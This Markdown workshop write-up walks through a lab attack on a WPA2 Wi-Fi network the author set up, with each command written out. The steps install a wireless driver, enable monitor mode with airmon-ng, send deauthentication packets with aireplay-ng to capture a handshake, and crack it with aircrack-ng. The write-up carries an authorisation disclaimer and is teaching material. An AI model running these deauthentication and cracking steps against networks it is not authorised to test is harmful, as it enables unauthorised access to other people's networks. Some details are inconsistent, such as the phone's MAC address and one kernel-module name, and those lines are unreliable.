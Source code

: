 # Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

 * `sudo apt-get update  `

 * `sudo apt-get install linux\-headers\-$\(uname \-r\)  `

 * `git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)  `

 * `cd rtl8812au  `

 * `make `

 * `sudo insmod 8812au\.ko `

 * `sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless `

 * `sudo depmod `

 * `sudo apt-get install build\-essential dkms `

 * `sudo make dkms\_install `

 * `echo 8192eu | sudo tee \-a /etc/modules `

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

 * `sudo airmon-ng check kill ` checks for conflicting processes and kills them. This however will result in loss of internet for the VM, can be solved by restarting.

 * `iwconfig   `shows the adapter names. In my case wlan0 is the wireless adapter.

 * `sudo airmon-ng start wlan 0 ` - Starts the wireless adapter in monitor mode.

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

 * `sudo airodump-ng -c 11 wlan0 ` - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

![](img/WifiHackingWorkshop4.png)



### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

 * `sudo airodump-ng -c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0 ` - this captures packets for the CyberSec accesspoint and saves it locally to a file named psk

 * `sudo aireplay-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0 ` - This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthenication process for the wpa2 handshake is captured and saved locally

![](img/WifiHackingWorkshop6.png)

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

 * `aircrack-ng \-w passwordlist\.txt psk\-02\.cap  `- This is what is used to crack the password.

![](img/WifiHackingWorkshop7.png)

